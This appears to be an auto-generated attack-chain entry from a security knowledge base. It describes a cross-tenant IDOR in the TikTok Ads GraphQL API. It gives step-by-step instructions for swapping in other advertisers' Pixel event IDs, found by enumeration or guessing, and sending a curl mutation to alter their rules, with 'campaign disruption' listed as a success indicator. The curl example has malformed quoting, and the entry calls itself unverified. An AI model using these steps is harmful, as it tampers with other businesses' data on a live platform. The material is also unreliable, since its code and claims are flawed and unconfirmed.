

---
tags:
  - idor
  - graphql
  - tiktok-ads
  - pixel-events
  - cross-tenant
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Discovery]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-GraphQL-Endpoints-for-Pixel-Management]]'
  - '[[procedures/Exploit-IDOR-in-AddRulesToPixelEvents-Query]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Account Discovery]]'
updated_at: '2025-12-14T17:26:00.071Z'
description: >-
  Multi-stage attack exploiting an Insecure Direct Object Reference (IDOR)
  vulnerability in the TikTok Ads portal's GraphQL API, enabling unauthorized
  manipulation of other advertisers' Pixel events across tenants.
skill_level: intermediate
impact_level: high
id: 0d514051-cef5-40e9-afc4-cfeaf0242a18
validated: true
mitre_tactics:
  - '[[Discovery]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Account Discovery]]'
---
# Cross-Tenant IDOR in TikTok Ads GraphQL AddRulesToPixelEvents Query for Pixel Event Manipulation

Multi-stage attack chain demonstrating a complete attack workflow exploiting an IDOR in the TikTok Ads portal to manipulate Pixel events across tenants.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform (TikTok Ads portal)
- GraphQL API for Pixel events management
- Authenticated access to TikTok Ads account

### Initial Access Requirements

- Valid TikTok Ads account credentials
- Browser or proxy tool for inspecting network traffic
- No special network access beyond standard HTTPS

## Detailed Attack Procedures

### Step 1: Identify GraphQL Requests for Pixel Management
procedure: [[procedures/Identify-GraphQL-Endpoints-for-Pixel-Management]]

**Objective**: Analyze network traffic to identify GraphQL queries used for managing Pixel events in advertising campaigns.

**Instructions**: Use a proxy tool like Burp Suite to intercept requests while navigating the TikTok Ads portal and managing your own Pixel events. Look for POST requests to the GraphQL endpoint (typically /graphql or similar) containing queries related to Pixel events.

**Expected Output**: Captured GraphQL query payloads, including the 'AddRulesToPixelEvents' mutation with object IDs for events.

**Success Indicators**:
- GraphQL endpoint and query structure identified
- Sample payload with legitimate IDs observed

### Step 2: Exploit IDOR in AddRulesToPixelEvents Query
procedure: [[procedures/Exploit-IDOR-in-AddRulesToPixelEvents-Query]]

**Objective**: Manipulate object IDs in the GraphQL query to access and modify rules for other tenants' Pixel events, bypassing authorization checks.

**Instructions**: Modify the captured payload by replacing your own Pixel event ID with a target ID from another advertiser (obtained via enumeration or guessing). Send the altered query using [[commands/curl-graphql-mutation]] to add, update, or delete rules.

For example, to add a rule:

```bash
curl -X POST 'https://ads.tiktok.com/graphql' \
  -H 'Authorization: Bearer YOUR_TOKEN' \
  -H 'Content-Type: application/json' \
  -d '{"query": "mutation AddRulesToPixelEvents($input: AddRulesToPixelEventsInput!) { addRulesToPixelEvents(input: $input) { success } }", "variables": {"input": {"pixelEventId": "TARGET_ID_HERE", "rules": [{"type": "event", "value": "test_rule"}]}}'}'
```

Validate the response for success, then check the target's campaign for disruptions.

**Expected Output**: GraphQL response indicating successful mutation (e.g., {"data": {"addRulesToPixelEvents": {"success": true}}}).

**Success Indicators**:
- Unauthorized rule added/updated/deleted on target Pixel events
- No authentication errors; cross-tenant access confirmed

## Attack Chain Summary

### Key Achievements

1. Identified vulnerable GraphQL query for Pixel event management
2. Exploited IDOR to manipulate other advertisers' events
3. Demonstrated potential for campaign disruption across the platform

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Account Discovery]]

### MITRE ATT&CK Tactics

- [[Discovery]]

---
*Last updated: 2023-10-01T00:00:00Z*
